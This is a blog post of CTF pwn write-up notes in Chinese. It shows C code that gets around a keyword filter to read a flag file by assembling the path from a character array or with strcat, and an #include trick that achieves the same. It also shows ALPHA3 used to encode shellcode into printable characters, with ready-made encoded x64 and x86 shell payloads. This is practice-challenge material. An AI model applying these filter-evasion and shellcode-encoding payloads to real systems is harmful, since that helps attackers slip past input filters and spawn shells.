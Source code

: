 ```yaml
---
layout: post
title: "pwn writeups"
date: 2020-12-01 16:51:14 +0800
description: ""
category: ctf/bin
tags: []
---
```


#### 写C代码

DASCTF-May2020 × BJDCTF-3rd：[TaQiniOj-0](http://www.resery.top/2020/05/23/BJD%203nd%20&%20DASCTF%20%E4%BA%94%E6%9C%88%E6%9C%88%E8%B5%9Bwp)，禁用了关键字home|ctf|flag，使用字符数组，或者strcat拼接绕过

```c
#include<stdio.h>
#include <string.h>
int main(){
  char name[] = {'/','h','o','m','e','/','c','t','f','/','f','l','a','g','\0'};
  FILE* fp = NULL;
  char buff[255];
/*  char name[255];
  strcpy(name, "/hom");
  strcat(name, "e/ct");
  strcat(name, "f/fl");
  strcat(name, "ag");
*/
  fp = fopen(name, "r");
  fscanf(fp, "%s", buff);
  printf("%s", buff);
}
```

非预期：直接include

```c
#include "/home/ctf/fl\
ag"
```

#### 写shellcode

###### [shellcode范围printable](https://taqini.github.io/2020/03/31/alpha-shellcode-gen/)

sample：[shellcode_revenge](https://blog.csdn.net/weixin_44145820/article/details/105565953)，mrctf2020，借助[alpha3](https://github.com/TaQini/alpha3)

```
payload = asm(shellcraft.sh())
python ./ALPHA3.py x64 ascii mixedcase rax --input="sc.bin" > out.bin
#x64: Ph0666TY1131Xh333311k13XjiV11Hc1ZXYf1TqIHf9kDqW02DqX0D1Hu3M2G0Z2o4H0u0P160Z0g7O0Z0C100y5O3G020B2n060N4q0n2t0B0001010H3S2y0Y0O0n0z01340d2F4y8P115l1n0J0h0a070t
#x86: Ph0666TY1131Xh333311k13XjiV11Hc1ZXYf1TqIHf9kDqW02DqX0D1Hu3M2G0Z2O7O0u7M7l1o1P0R7L0Y3T3D14000n000Q4q0f2s7n0Y0X020e3j2u1k000i013A7o4y3A114C1n0z0h4k4r0s
```

